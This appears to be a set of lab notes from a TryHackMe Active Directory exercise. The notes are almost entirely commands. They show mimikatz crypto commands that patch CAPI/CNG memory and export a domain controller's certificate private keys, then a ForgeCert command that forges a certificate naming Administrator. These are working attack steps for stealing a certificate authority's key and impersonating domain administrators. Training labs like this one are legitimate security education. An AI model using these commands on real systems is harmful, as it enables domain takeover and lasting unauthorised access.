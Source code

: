 Extracting Private Key
```
mkdir <folder>
cd <folder>
C:\Tools\mimikatz_trunk\x64\mimikatz.exe

mimikatz # crypto::certificates /systemstore:local_machine #If on DC already
```

Patch memory to export keys
```
crypto::capi
crypto::cng
```

Export keys
```
crypto::certificates /systemstore:local_machine /export
```

Generating our own certificates
```
C:\Tools\ForgeCert\ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123
```